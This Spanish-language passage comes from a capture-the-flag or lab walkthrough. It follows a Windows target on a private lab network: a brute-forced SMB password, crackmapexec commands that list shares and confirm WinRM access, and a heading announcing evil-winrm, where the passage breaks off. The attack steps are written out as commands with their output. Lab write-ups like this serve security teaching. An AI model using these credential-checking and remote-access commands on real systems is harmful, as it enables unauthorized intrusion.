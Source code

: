 ```ruby
    SMB   192.168.56.102  445    WIN-IURF14RBVGV  [+] WIN-IURF14RBVGV\nica:h****
```
  Hemos obtenido la contraseña ```h*****``` despues de realizar el ataque de fuerza brut !


## Recursos compartidos

  ```ruby
    ┌──(root㉿kali)-[/home/user]
    └─$ crackmapexec smb 192.168.56.102 -u nica -p hardcore --shares
    SMB         192.168.56.102   445    WIN-IURF14RBVGV  [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-IURF14RBVGV) (domain:WIN-IURF14RBVGV) (signing:False) (SMBv1:False)

    SMB   192.168.56.102   445    WIN-IURF14RBVGV  [+] WIN-IURF14RBVGV\nica:hardcore
    SMB   192.168.56.102   445    WIN-IURF14RBVGV  [+] Enumerated shares
    SMB   192.168.56.102   445    WIN-IURF14RBVGV  Share     Permissions     Remark
    SMB   192.168.56.102   445    WIN-IURF14RBVGV  -----     -----------     ------
    SMB   192.168.56.102   445    WIN-IURF14RBVGV  ADMIN$              Admin remota
    SMB   192.168.56.102   445    WIN-IURF14RBVGV  C$            Recurso predeterminado
    SMB   192.168.56.102   445    WIN-IURF14RBVGV  IPC$            READ            IPC remota
  ```

### Vemnos que hay varios recursos compartidos

  **1. ADMIN$:** Recurso para administración remota (por defecto, los administradores pueden acceder a él).

  **2. C$:** Recurso predeterminado que da acceso a la unidad C del sistema 

  **3. IPC$:**  proporciona un mecanismo de comunicación entre procesos (IPC) autenticado .Permite realizar conexiones remotas con otros servicios, pero tiene permisos de solo lectura.

  Veremos los recursos compartidos por defecto, por lo que no nos sirve de mucho, pero vamos a probar a conectarnos de forma remota con las credenciales que hemos encontrado, mediante el protocolo **WinRM**.

# WinRM (Windows Remote Management) 


  ```ruby
    ┌──(root㉿kali)-[/home/user]
    └─$ crackmapexec winrm 192.168.56.102 -u nica -p hardcore
    SMB    192.168.56.102   5985   WIN-IURF14RBVGV  [*] Windows 10 / Server 2019 Build 17763 (name:WIN-IURF14RBVGV) (domain:WIN-IURF14RBVGV)
    HTTP    192.168.56.102   5985   WIN-IURF14RBVGV  [*] http://192.168.56.102:5985/wsman
    WINRM  192.168.56.102   5985   WIN-IURF14RBVGV  [+] WIN-IURF14RBVGV\nica:hardcore (Pwn3d!)
  ```

  Vemos que ha funccionado! nos sale **WIN-IURF14RBVGV\nica:hardcore (Pwn3d!)**

  (Pwn3d!) → TOTAL. Has autenticado y tienes acceso remoto mediante WinRM.

Una vez hemos verificado que podemos conectarnos accederemos remotamente **usando evil-winrm**

## Evil-winrm
